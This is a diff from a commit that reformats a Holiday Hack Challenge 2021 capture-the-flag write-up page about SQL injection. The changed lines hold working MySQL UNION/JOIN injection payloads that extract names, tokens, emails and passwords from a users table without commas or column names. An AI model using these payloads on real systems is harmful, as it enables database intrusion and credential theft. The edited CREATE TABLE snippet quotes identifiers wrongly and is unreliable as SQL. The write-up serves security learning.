

Before and after one commit to AgroDan/hhc2021writeup, an MkDocs documentation site: the page built from docs/frost_tower/obj12-4.md, in a window 1280 px wide and 900 px high, scrolled down 9752 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Some slight reformatting/punctuation/spelling corrections

````diff
--- a/docs/frost_tower/obj12-4.md
+++ b/docs/frost_tower/obj12-4.md
@@ -265,15 +265,13 @@ In my attempts to further enumerate the database, I did what most sensible hacke
 
 The following weird attempts didn't seem to work!
 
-`union%20select%20*%20from%20(select%201)UT1%20JOIN%20(SELECT%20table_name%20FROM%20mysql.innodb_table_stats)UT2%20on%201=1`
+`union select * from (select 1)a JOIN (SELECT table_name FROM mysql.innodb_table_stats)b on 1=1`
 
 `UNION SELECT * FROM (SELECT 1)a JOIN (SELECT name from users where id = 1)b JOIN (select token from users where id = 1)c JOIN (SELECT email from users where id = 1)d JOIN (SELECT password from users where id = 1)e JOIN (SELECT 6)f JOIN (SELECT 7)g`
 
-` union select * from (select 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g on 1=1 -- -`
+`union select * from (select 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g on 1=1 -- -`
 
-`union select * from (select 1)a JOIN (SELECT 2)b JOIN (select `1` from (select 1 union select name from users limit 1))c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g on 1=1 -- -`
-
-select `1` from select
+`union select * from (select 1)a JOIN (SELECT 2)b JOIN (select 1 from (select 1 union select name from users limit 1))c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g on 1=1 -- -`
 
 It was so bad that the best way I discovered to work on my SQL Injection skills was to build a MySQL database in a Docker container and attempt to create a very similar schema with contrived data built-in.
 
@@ -305,8 +303,7 @@ union select * from (select 1)a join (select 2)b join (select f.3 from (select *
 
 And eventually, given what I discovered...this actually worked. It gave me information from the `users` table without once referencing a column name. It is ugly as sin, but nobody ever said hacking was pretty:
 
-`select id,name,1 from users where id=-1 union select * from (select 1)a join (select 2)b join (select f.3 from (select * from (select 1)z join (select 2)y join (select 3)x join (select 4)w join (select 5)v join (select 6)u
- join(select 7)t union select * from users limit 1 offset 2)f)c;`
+`select id,name,1 from users where id=-1 union select * from (select 1)a join (select 2)b join (select f.3 from (select * from (select 1)z join (select 2)y join (select 3)x join (select 4)w join (select 5)v join (select 6)u join(select 7)t union select * from users limit 1 offset 2)f)c;`
 
 This is nice if I wanted to get info from the `users` table, but I suspected there was a `todo` table based on the following description of the challenge:
 
@@ -314,10 +311,10 @@ This is nice if I wanted to get info from the `users` table, but I suspected the
 
 So let's make a new table called `todo` with some arbitrary column names, like an `id` column and another column named `flag`.
 
- ```sql
- CREATE TABLE `todo` (
-  `id` int(50) NOT NULL AUTO_INCREMENT,
-  `flag` varchar(255) DEFAULT NULL,
+```sql
+ CREATE TABLE 'todo' (
+  'id' int(50) NOT NULL AUTO_INCREMENT,
+  'flag' varchar(255) DEFAULT NULL,
    PRIMARY KEY (`id`)
 ) ENGINE=InnoDB AUTO_INCREMENT=10 DEFAULT CHARSET=latin1;
 ```
````
Also changed, not shown: other parts of docs/frost_tower/obj12-4.md (+4 -4 lines), docs/frost_tower/obj12-3.md (+1 -1 lines).
